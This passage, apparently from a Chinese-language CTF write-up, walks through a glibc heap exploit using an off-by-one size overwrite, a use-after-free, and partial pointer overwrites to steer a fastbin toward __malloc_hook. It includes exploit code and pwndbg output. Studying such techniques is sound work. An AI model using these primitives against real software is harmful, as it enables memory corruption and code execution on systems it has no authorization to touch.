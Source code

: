 释放掉 `B` , 然后分配同样大小再次分配到 `B` , 此时 `B+0x10` 和 `B+0x18` 中有 `main_arean` 的地址。分配 `3` 个 `fastbin` ，利用 `off by one` 修改 `B->size = 0x71`

```
free(1)
create(0xc8,1)

create(0x65,3)  # b
create(0x65,15)
create(0x65,18)

over = "A"*0x18  # off by one
over += "\x71"  # set chunk  1's size --> 0x71
edit(0,over)
info("利用 off by one ,  chunk  1's size --> 0x71")
```

生成两个 `fastbin` ，然后利用 `uaf` ，部分地址写，把 `B` 链入到 `fastbin`

 

```py
free(2)
free(3)
info("创建两个 0x70 的 fastbin")
heap_po = "\x20"
edit(3,heap_po)
info("把 chunk'1 链入到 fastbin 里面")

```

调试看看此时 `fastbin` 的状态

 

```
pwndbg> fastbins 
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x555555757160 —▸ 0x555555757020 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x7ffff7dd1b78
0x80: 0x0
```

> `0x555555757020` 就是 `chunk B`

 然后通过修改 `B->fd` 的低 `2` 字节， 使得 `B->fd= malloc_hook - 0x23`

 

```
# malloc_hook 上方
malloc_hook_nearly = "\xed\x1a"
edit(1,malloc_hook_nearly)
info("部分写，修改 fastbin->fd ---> malloc_hook")

```
